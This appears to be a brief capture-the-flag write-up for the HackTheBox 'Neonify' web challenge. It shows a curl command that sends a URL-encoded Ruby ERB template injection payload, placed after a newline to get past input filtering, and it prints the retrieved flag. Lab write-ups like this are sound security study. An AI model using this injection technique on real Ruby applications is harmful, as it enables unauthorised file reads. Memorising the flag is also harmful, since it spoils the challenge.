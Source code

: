 


- Used this resource to understand the vuln and breaking the ruby code

https://drt.sh/posts/htb-neonify/


```bash
─[✗]─[glack@parrot]─[~/Desktop/HTB/web_neonify/challenge/config]
└──╼ $curl http://138.68.148.72:31423/   -s -X POST -d 'neon=a
%3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' | grep -Eo 'HTB{.*}'
HTB{r3pl4c3m3n7_s3cur1ty}

```



